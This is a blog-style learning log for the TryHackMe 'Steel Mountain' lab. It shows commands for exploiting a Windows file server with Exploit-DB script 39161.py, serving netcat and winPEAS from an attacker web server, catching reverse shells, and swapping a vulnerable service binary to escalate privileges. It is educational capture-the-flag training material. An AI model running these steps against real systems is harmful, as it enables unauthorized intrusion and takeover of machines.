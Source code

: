 ```yaml
---
title: 'TryHackMe: Complete Beginner'
date: 2021-11-08 12:00:00.000000000 Z
layout: post-external
original_link: https://cardboard-iguana.com/log/2021-11-08-tryhackme-complete-beginner.html
author: 100007
---
```


# TryHackMe: Complete Beginner

**author:** Nathan Acks  
**date:** 2021-11-08

# Steel Mountain

Things got busy yesterday and I had to push finishing this section off a day. The machine’s new IP address is 10.10.174.199.

## Access and Escalation Without Metasploit

The alternate exploit we’re going to run for this is located at /usr/share/exploitdb/exploits/windows/remote/39161.py on Kali Linux. To set this up, we’re going to use a quick-n-dirty Python web server containing a statically-compiled version of netcat. This needs to be running on port 80 for the exploit to work (don’t forget to punch a hole through the firewall for this!).

```
mkdir 1
cd 1
cp /usr/share/windows-binaries/nc.exe .
curl -O https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASexe/binaries/x64/Release/winPEASx64.exe
sudo python3 -m http.server 80
```

Ready our listener in another terminal. Note that WinPEAS generates _a lot_ of output, so we need to increase TMUX history buffer (`set -g history-limit 8192`) in order to be able to capture all of it. This needs to be set _before_ creating the window that we’re going to catch our reverse shell in!

```
nc -lvnp 4444
```

Copy, setup, and run the exploit!

```
cp /usr/share/exploitdb/exploits/windows/remote/39161.py .
nano 39161.py # Change ip_addr and local_port
python2 39161.py 10.10.174.199 8080
python2 39161.py 10.10.174.199 8080
```

Once we’re in (the exploit needs to be run twice to work), we need to grab and run winPEASx64.exe from our web server.

```
powershell -c "Invoke-WebRequest -Uri http://10.13.26.40/winPEASx64.exe -OutFile winPEASx64.exe"
.\winPEASx64.exe
```

Interestingly, while WinPEAS notes that ASCServie.exe is vulnerable to an overwrite, it looks like it misses the fact that the compromised user can restart it. That said, WinPEAS does display _a lot_ more information than PowerUp, so it might be useful to run _both_…

Useful PowerShell commands:

- `Get-Service` - list all services, or drill down on a particular service.
- `sc.exe stop $SERVICE`/`sc.exe start $SERVICE` - stop/start $SERVICE.

Putting this all together, we can replicate yesterday’s compromise by:

```
powershell -c "Invoke-WebRequest -Uri http://10.13.26.40/ASCService.exe -OutFile ASCService.exe"
sc.exe stop AdvancedSystemCareService9
copy "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
ASCService.exe.bak
copy /Y ASCService.exe
"C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
sc.exe start AdvancedSystemCareService9
```

Where ASCService.exe is the same compromise as last time, and we again catch the reverse shell using:

```
nc -lvnp 4443
```

- [2021-11-07 - TryHackMe: Complete Beginner](https://cardboard-iguana.com/log/2021-11-07-tryhackme-complete-beginner.html)
